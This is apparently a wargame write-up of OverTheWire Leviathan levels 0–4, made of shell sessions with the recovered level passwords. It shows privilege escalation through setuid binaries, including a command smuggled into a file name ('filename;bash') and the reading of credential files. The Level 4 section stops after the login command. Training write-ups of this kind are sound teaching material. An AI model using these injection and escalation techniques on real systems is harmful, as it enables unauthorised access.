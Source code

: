 # Leviathan

## Level 0

* Goal - To login to the first level use Username - leviathan0, Password - leviathan0. Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.

* Commands - ssh

* Solution -

```shell
ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0

ls

ls -a
#shows hidden .backup directory

cd .backup/

ls

cat bookmarks.html

cat bookmarks.html | grep password
#password (rioGegei8m)

exit
```

## Level 1

* Solution -

```shell
ssh leviathan.labs.overthewire.org -p 2223 -l leviathan1

ls -a
#shows file called check

file check
#binary

./check
#asks password, tried previous password but doesn't work

strings check
#strings prints readable strings
#shows particular strings

ltrace ./check
#run a command until exits
#to understand logic used
#binary compares string with "sex"
#entering "sex" as password for binary

./check
#opens /bin/sh

whoami
#leviathan2

cat /etc/leviathan_pass/leviathan2
#password (ougahZi8Ta)

exit

exit
```

## Level 2

* Solution -

```shell
ssh leviathan.labs.overthewire.org -p 2223 -l leviathan2

ls -a
#shows that printfile is owned by leviathan3

file printfile
#shows binary file

./printfile
#shows command to print a file

ldd printfile
#prints shared libraries

man readelf
#tool to display info for ELF files

readelf -h printfile

ltrace ./printfile /etc/leviathan_pass/leviathan3
#shows access function in code, exits

ltrace ./printfile /etc/passwd
#this works and we get access
#it tries to run /bin/cat for filename

mktemp -d
#create random directory in /tmp

cd /tmp/tmp.xRVgCgdIfr

touch 'filename;bash'
#creating file with a name containing semicolon, following which we place command to be executed

ls

~/printfile 'filename;bash'
#run printfile (in home directory) to print 'filename;bash'
#this executes bash command
#now we enter bash with leviathan3

whoami
#leviathan3

cat /etc/leviathan_pass/leviathan3
#password (Ahdiemoo1j)

exit

exit
```

## Level 3

* Solution -

```shell
ssh leviathan.labs.overthewire.org -p 2223 -l leviathan3

ls -la
#shows binary named level3 with leviathan4 user

file level3

./level3
#gives prompt to enter password

ltrace ./level3
#shows strcmp function
#string compared with 'snlprintf'

ltrace ./level3
#enter snlprintf
#takes to shell

whoami
#leviathan3

ls
#shows level3

./level3
#enter password 'snlprintf' again
#takes us to another shell

whoami
#leviathan4

cat /etc/leviathan_pass/leviathan4
#password (vuH0coox6m)

exit

exit
#back to leviathan3

exit
```

## Level 4

* Solution -

```shell
ssh leviathan.labs.overthewire.org -p 2223 -l leviathan4
```
